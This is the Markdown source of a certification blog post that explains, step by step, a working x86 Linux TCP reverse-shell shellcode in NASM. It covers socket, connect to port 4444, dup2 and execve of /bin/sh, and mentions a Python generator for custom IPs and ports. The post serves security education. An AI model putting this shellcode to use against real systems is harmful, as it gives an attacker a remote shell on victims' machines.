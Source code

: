 ```yaml
---
layout: post
title: SLAE 0x2 - TCP Reverse Shell in NASM
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to craft my own version of *linux/shell_reverse_tcp*. This means that our shellcode connects to a target host on a specified port and returns a shell.

# How it works

To understand how it works, let's break it down to steps:

1. Create a socket file descriptor that we can use for communication
2. Connect to address and port
3. Connect *stdin*, *stdout* and *stderr* to socket
4. Execute */bin/sh*

Looking at the steps and comparing it to SLAE 0x1 Bind TCP shell, we can see that it's the same, but with connect to host instead of the bind/listen/accept syscalls. This makes this assignment a walk in the park if you already did the bind shell first and if you didn't, you should probably start with this instead.

# Assembly code

For the embedded code, I removed most of the inline comments. If you want to check out the full source code with all the comments, feel free to do it on my [Github](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.nasm). Most of the explanation has been unchanged from SLAE 0x1, but there are some small subtle changes.

#### Initializing

The first step is to initialize the registers to make sure that we start from a clear state when the shellcode is executed. Why? Because there could be some leftover data remaining in the registers, which can lead to *unexpected behaviour*. I XORd the EAX register with itself and moved it's value into the other registers. You can also XOR out the others or instead of moving POP a 0x00 value from the stack.

    ; xor register eax so we avoid null byte, then mov value into other registers as well   
    xor eax, eax
    mov ebx, eax
    mov ecx, eax
    mov edi, eax
    mov esi, eax


#### Socket

Next, we need to create the socket file descriptor. For this, I used the socket() syscall with the SYS_SOCKET socket call. This creates a socket file descriptor and gives back the file handler as the return value. My favorite reference for syscalls is [syscalls.kernelgrok.com](https://syscalls.kernelgrok.com/) which shows what each register needs to contain for the given syscall. Upon looking at the reference, we can see that for the sys_socketcall we need to set EAX to 0x66 (102), specify the call in EBX and pass the references in ECX.

For the first socket call (SYS_SOCKET), I needed to specify the domain (protocol family aka IPv4) AF_INET - 0x2, the type (TCP) SOCK_STREAM - 0x1 and the protocol, which in this case is 0x0 as we accept any protocol. To set up the call, I first moved 0x66 into the EAX register for the sys_socketcall, then I incremented the EBX register by one to contain the value of the SYS_SOCKET call. Then I pushed the value of the arguments in reverse order and stored the address in ECX. ECX was XORed out from before so it contained 0x00, EBX is 0x1 because of SYS_SOCKET so this was used for the type argument, while for AF_INET I pushed 0x2 byte on the stack.

    socket:
    mov al, 0x66 ; 102 sys_socketcall

    inc bl ; SYS_SOCKET 1 
    
    push ecx ; 0x0 - any - int protocol
    push ebx ; 0x1 - SOCK_STREAM - int type
    push byte 0x2 ; 0x2 - PF_INET/AF_INET - int domain
    
    mov ecx, esp ; store argument address in ecx

    int 0x80 ; sys_socketcall

#### Connect

This is the only major change compared to the bind shell. Instead of a the bind/listen/accept I now only had to do a connect function call. To my surprise connecting to a remote host is much-much easier than setting up a bind shell on your machine. 

The flow of the code is somewhat similar to the bind function call. I set up the registers for the function call first EAX -> 0x66 SYS_SOCKETCALL and EBX -> SYS_CONNECT. After that I pushed the sockaddr struct onto the stack, first the IP address in network byte order (connects back to localhost by default), then the port 4444, byte 0x2 (as in AF_INET) and finally stored the sockaddr_in pointer in ECX and pushed that on the stack. We also need the addrlen and the socket file descriptor, so I pushed 16 and the sockfd from ESI as well. Finally we just need to move the argument address to ECX and do the syscall.

    mov esi, eax ; move sockfd into esi
    mov al, 0x66; 102 sys_socketcall
    mov bl, 0x3; SYS_CONNECT 

    push 0x0101017f; 127.1.1.1 in network byte order 
    push word 0x5c11; port 4444 in network byte order
    push word 0x2 ; 0x2, sin_family - AF_INET

    mov ecx, esp ; store sockaddr_in pointer
    push byte 16 ; socketlen_t addrlen 16 bit

    push ecx ; sockaddr_in pointer
    push esi ; push sockfd

    mov ecx, esp ; store argument address in ecx
    int 0x80 ; syscall


#### Duplicate

In this section of the shellcode we bind together stdin, stdout, stderr and the socket file descriptor. I first swapped out EAX and EBX, so EBX points to the file descriptor. After that I zeroed out ECX as a start value for the loop.

    duplicate:        
    xchg eax, ebx ; move fdescriptor from accept into ebx for oldfd
    xor ecx, ecx ; zero out ecx for counter

The loop portion of the code moves 0x3f into EAX, calls the interrupt, increments ECX (loop counter), compares ECX with 0x3 and jumps back to the start of the loop if ECX is not equal to 3. What this means in practice is that it calls the dup2 system call on our socket with stdin, stdout and stderr.

    dup2:
    mov al, 0x3f ; int dup2 - 63 in hex
    int 0x80 ; dup2 syscall
    inc cl ; increment loop register
    cmp ecx, 0x3 ; compare ecx 0x3 
    jne dup2 ; if ecx != 3 continue looping

#### Execve

In the last part of the shellcode, we spawn /bin/sh. The code is straight out from the previous execve stack exercise without any major changes. We need to push //bin/sh0x0 onto the stack for EBX, the memory adress of //bin/sh,0x0 for ECX and 0x0 for EDX. 

    execsh:

    xor eax, eax ; null out eax
    push eax ; null byte
    
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    
    mov ebx, esp ; move stack pointer into ebx
    push eax ; push another null for the sys argv
    mov edx, esp ; sysargv arguments - address as above, but now with extra null bytes
    push ebx ; push address of the program name -> //bin/sh0x00
    mov ecx, esp ; arguments

    mov al, 11 ; execve syscall
    int 0x80 ; call execve


# Call graph

Here is the graph call for the shellcode. As *libemu* doesn't work on my machine, I had used *radare2* and *Cutter* to export the call graph.

![Graph call in Cutter]({{"/content/posts/slae/revshellgraph.png" | absolute_url }}){: .center}


# Shell 

Launching the shellcode on port 4444 in the compiled C test program and connecting to it with *netcat*.

![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae/revshell.png" | absolute_url }}){: .center}

# Shellcode generator

I also made a short shellcode generator script in Python3 to make custom payloads easier. It can be found on [my Github repository](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.py). Using it is really easy, it takes two arguments (ip and port) and echoes out the modified shellcode to *stdout*. The way it works is very simple, it transforms the IP and port into hex and replaces them in the hardcoded shellcode. There are a few validation rules, but it doesn't check for null or other badchars.

# Final Thoughts

After doing the previous assignment, this was a walk in the park. It took roughly 20 minutes to change everything in the bind tcp shell, so it connects to a remote host instead of listening locally and another 20 minutes to figure out the changes for the IP in the shellcode generation script. For those who are reading this because they plan to do SLAE, I would recommend starting with this instead of bind TCP.

Even though I found this assignment easier compared to the previous one, I still learned a lot. Coding your own shellcodes teaches you a lot about how they work and what happens to them when you send them to that poor-poor vulnerable service that you wanted to exploit. It was really awesome to see that /bin/sh was still there, waiting for instructions, when the shellcode failed to connect back to my attacker machine. I have seen this previously in the OSCP labs and it all became clear to me after seeing it with *my code*. These wins are the reason why I love infosec, no matter how much you know, you can always go deeper and learn something new.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).